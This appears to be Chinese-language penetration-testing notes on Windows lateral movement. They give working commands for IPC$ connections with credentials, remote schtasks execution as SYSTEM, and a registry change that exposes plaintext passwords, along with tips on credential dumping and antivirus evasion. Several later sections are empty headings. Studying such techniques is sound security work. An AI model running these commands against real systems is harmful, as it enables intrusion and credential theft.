

# 信息收集

前提：通过提权，获取当前一台电脑的权限。

mimikatz(win)、mimipenguin(linux)：获取当前系统的密码

XenArmor(win)、LaZagne(all)：获取系统中所有（该软件支持的）应用的密码

然后利用获得的用户和密码对该网的主机做密码碰撞

# 横向渗透


### 基础知识

IPC（Internet Process Connection）是共享“命名管道”的资管，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相关的权限，在远程管理计算机和查看计算机的共享资源时使用


##### 利用流程

- 建立 IPC 链接到目标主机

- 拷贝要执行的命令脚本到目标主机

- 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

- 删除 IPC 链接

##### 建立 IPC 失败的原因

- 目标系统不是NT 或以上的操作系统（win2003以上）

- 对方没有打开IPC$共享

- 对方未开启139、445 端口，或者被防火墙屏蔽

- 输出命令、账号密码有错误

##### 建立 IPC 常见的错误代码

- 5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限

- 51：网络问题，Windows 无法找到网络路径

- 53：找不到网络路径，可能IP地址错误、目标未开机、目标 Lanmanserver 服务未启动、有防火墙等问题

- 67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$

- 1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除

- 1326：账号密码错误

- 1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况

- 2242：用户密码过期，目标有账号策略，强制定期更改密码 


### at&&schtask

首先建立ipc连接：

```
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\dbadmin
```

复制程序到远程主机

```
copy add.bat \\192.168.3.32\c$
```

然后创建计划任务

```
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F
```

运行任务

```
schtasks /run /s 192.168.3.32 /tn adduser
```

删除任务

```
schtasks /delete /s 192.168.3.32 /tn adduser /f
```

==工具推荐：impacket、atexec==

### hash传递

背景: Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码

Windows2012以下版本如安装KB2871997补丁，同样也会导致无法获取明文密码

针对以上情况，我们提供了4种方式解决此类问题

- 1.利用哈希hash传递(pth，ptk等)进行移动（不需要明文）
- 2.==利用其它服务协议(SMB,WMI等)进行哈希移动(psexec、smbexec、wmi)==
- 3.利用注册表操作开启Wdigest Auth值进行获取（想办法获取明文）
- 4.利用工具或第三方平台(Hachcat)进行破解获取（wdigest开启不了，在实战情况下会被杀毒软件查杀）

知识点：

Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。

注：这个在mimikatz上可以发现有两个加密算法，一个是LM Hash，另外一个是NTLM Hash（基本只用关注这个）

知识点：

- 注册表操作开启Wdigest Auth值：
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
- 域用户和本地用户的区别：god/administrator是域用户，./administrator是本地用户（我不太清楚为啥本地用户前面要加一个./） 


Mimikatz属于第三方软件，直接上传到目标主机可能被杀毒软件查杀，这时我们可以配合官方软件Procdump，将Procdump上传目标主机获取用户信息(该文件不可读)，使用本地的Mimikatz打开Procdump获取的用户信息。 

##### 工具使用例子：

```cmd
利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放（类似于FTP这种文件共享协议）

存在两种方式，第一种使用微软官方工具：psexec工具（存在两种连接方式：1. 先有 ipc 链接，psexec 需要明文或hash 传递2. 不用建立IPC直接提供明文账户密码（推荐原因：建立IPC链接可能会失败）） 


第二种是使用工具smbexec工具：（1. 非官方自带-参考impacket工具包使用，操作简单，容易被杀2. smbexec无需先ipc链接 明文或hash传递）   


WMI(Windows Management Instrumentation) 是通过135 端口进行利用，支持用户名明文或hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。（这是一种服务）
```

### pth、ptt、ptk


### 域横向CS&SPN&RDP

  


# 代理


### ngrok


### frp




# 隧道技术


# MSF && CS 联动

